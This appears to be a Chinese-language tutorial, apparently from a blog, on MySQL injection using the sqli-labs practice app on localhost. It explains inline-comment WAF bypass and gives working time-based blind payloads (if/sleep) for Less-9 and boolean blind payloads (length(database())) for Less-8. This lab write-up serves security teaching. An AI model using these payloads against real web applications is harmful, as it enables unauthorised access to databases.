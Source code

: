 ### 内联注释
* 在注释的开头处加上！便可执行mysql语句，只对mysql有效，常用来绕过WAF  
![f10]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f10.png)  
![f11]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f11.png)

## 基于时间的延时注入
### 以less-9为例
![f12]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f12.png) 

* 测试id参数发现不管是否加引号都会返回相同的结果，所以无法使用报错注入
* 这里可以看一下PHP源码  
![f14]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f14.png)  

### 利用if语句，若真则返回1，若假则延时3s
$\color{red}{真，时间为2s左右}$  
```http
http://127.0.0.1/sqli/Less-9/?id=1' and if(ascii(substr(database(),1,1))=115,1,sleep(3)) --+
```
![f13]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f13.png)   
$\color{red}{假，时间为5s左右}$  
```http
http://127.0.0.1/sqli/Less-9/?id=1' and if(ascii(substr(database(),1,1))=116,1,sleep(3)) --+
```
![f15]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f15.png)   

> * 注意payload要加and

## 布尔盲注
### 以less-8为例

```http
http://127.0.0.1/sqli/Less-8/?id=1'
```

* 加单引号发现错误界面  
![f16]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f16.png) 

### 利用返回的布尔值注入
#### 返回错误界面

```http
http://127.0.0.1/sqli/Less-8/?id=1' and length(database()) < 8 --+
```

#### 返回正确界面

```http
http://127.0.0.1/sqli/Less-8/?id=1' and length(database()) < 9 --+
```
